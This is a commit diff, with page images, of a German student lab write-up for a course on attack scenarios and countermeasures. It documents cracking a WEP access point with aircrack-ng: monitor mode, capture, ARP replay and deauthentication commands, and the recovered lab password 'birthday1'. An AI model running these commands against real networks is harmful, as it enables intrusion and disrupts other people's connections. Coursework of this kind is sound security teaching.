

Before and after one commit to leo-mao/Angriffszenarien-und-Gegenma-nahmen-SS18, a LaTeX problem sheet (AuG_Doku/AuG_Uebung1.tex): part of page 7 of 13 before the commit and two parts of pages 7 and 8 of 14 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
fix 'WEP Beschreibeung'

```diff
--- a/AuG_Doku/AuG_Uebung1.tex
+++ b/AuG_Doku/AuG_Uebung1.tex
@@ -218,9 +219,9 @@
     					\begin{lstlisting}[language=bash]
 airodump-ng wlan0mon --ivs -c {CH} --bssid {target_ssid} -w {file/to/save}
 						\end{lstlisting}
-						\item Die Menge an Netzwerkverkehr(bzw. ARP-Verkehr) kann durch 2 Arten erhöht werden. Entweder durch Abmelden des zulässige Clients oder Versuch einer falschesten Authentifizierung am AP. Wir haben leider keine zulässige Geräte vorhanden, wir müssen auf 2. Weise gehen, also eine Aireplay-attacke durchzufuhren.
+						\item Um Menge an Netzwerkverkehr(bzw. ARP-Verkehr)  durch 2 Arten zu erhöht, haben wir ARP Request replay attack dürchgefürht mit folgende Befehle:
 						\begin{lstlisting}[language=bash]
-aireplay-ng wlan0 --deauth 0 -a {target_mac}
+aireplay-ng -3 -b {target_mac} -h {networkcart_mac} mon0
 						\end{lstlisting}
 						Da normalerweise soll viele Gerate nach einer abmedlung wieder dem AP zu verbinden,
 						und damit können wir genug ARP Requests und ACKs sammeln.
@@ -229,3 +230,21 @@
 aircrack-ng {.ivs file} -b {target_ssid}[language=bash]
 						\end{lstlisting}
     				\end{enumerate}
+    				\paragraph{AP ITS-Praktikum knacken}
+					Wir haben folgende Schritte durchgeführt und die AP 'ITS-WEP' geknackt. Das Passwort ist
+					\begin{lstlisting}[language=bash]
+birthday1
+					\end{lstlisting}
+					\begin{enumerate}[label=\alph*.]
+						\item Mit Airmon-ng die Netzwerkkarte zu promiscuous versetzen
+						\begin{lstlisting}{language=bash}
+airmon-ng start wlan0
+					\end{lstlisting}
+					\item WLAN mit WEP identifizieren und Netzwerkverkehr mitschneiden.
+					\begin{lstlisting}[language=bash]
+airodump-ng wlan0mon --ivs -c {CH} --bssid {target_ssid} -w {file/to/save}
+					\end{lstlisting}
+					\item Damit wir Handshake-Pakete so schnell wie möglich sammeln können, haben wir Deauthentication Attacks durchgeführt, so wird die Client gezwungen abgemeldet und wieder anmelden lassen.
+					\begin{lstlisting}[language=bash]
+aireplay-ng wlan0 --deauth 0 -a {target_mac}
+					\end{lstlisting}
```
Also changed, not shown: AuG_Doku/AuG_Uebung1.pdf, Code/de/aug/Uebung1/rc4/crack.py (line endings or trailing spaces), AuG_Doku/AuG_Uebung1.tex (10 more changed lines).
